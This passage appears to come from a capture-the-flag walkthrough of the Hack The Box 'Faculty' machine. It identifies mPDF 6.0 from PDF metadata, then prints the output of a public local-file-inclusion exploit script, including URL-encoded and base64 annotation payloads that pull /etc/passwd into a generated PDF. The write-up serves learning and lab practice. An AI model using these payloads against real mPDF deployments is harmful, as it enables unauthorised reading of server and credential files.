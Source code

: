 ```bash
Producer                        : mPDF 6.0
Create Date                     : 2022:08:26 08:46:03+01:00
Modify Date                     : 2022:08:26 08:46:03+01:00
```

Googling for mPDF exploits we find [this LFI python script](https://packetstormsecurity.com/files/167897/mPDF-7.0-Local-File-Inclusion.html) that helps us create a base64 payload to be sent to the victim. 
As a PoC try to grab `/etc/passwd`:
```bash
➜  faculty ./mpdf-lfi.py 
File >> /etc/passwd
[+] Replace the content with the payload below
Url encoded payload:
%3Cannotation%20file%3D%22/etc/passwd%22%20content%3D%22/etc/passwd%22%20icon%3D%22Graph%22%20title%3D%22Attached%20File%3A%20/etc/passwd%22%20pos-x%3D%22195%22%20/%3E

Base64 encoded payload:
JTNDYW5ub3RhdGlvbiUyMGZpbGUlM0QlMjIvZXRjL3Bhc3N3ZCUyMiUyMGNvbnRlbnQlM0QlMjIvZXRjL3Bhc3N3ZCUyMiUyMGljb24lM0QlMjJHcmFwaCUyMiUyMHRpdGxlJTNEJTIyQXR0YWNoZWQlMjBGaWxlJTNBJTIwL2V0Yy9wYXNzd2QlMjIlMjBwb3MteCUzRCUyMjE5NSUyMiUyMC8lM0U=
```

Send the base64 payload with Burp to create a new pdf.
![](/assets/images/htb-writeup-faculty/faculty07.png)

Add the filename to the base URL `http://faculty.htb/mpdf/tmp/` do see the PDF.
In the left corner you'll see a green dot indicator on the sidebar, press it got to "Show Attachments" and download the file `passwd`.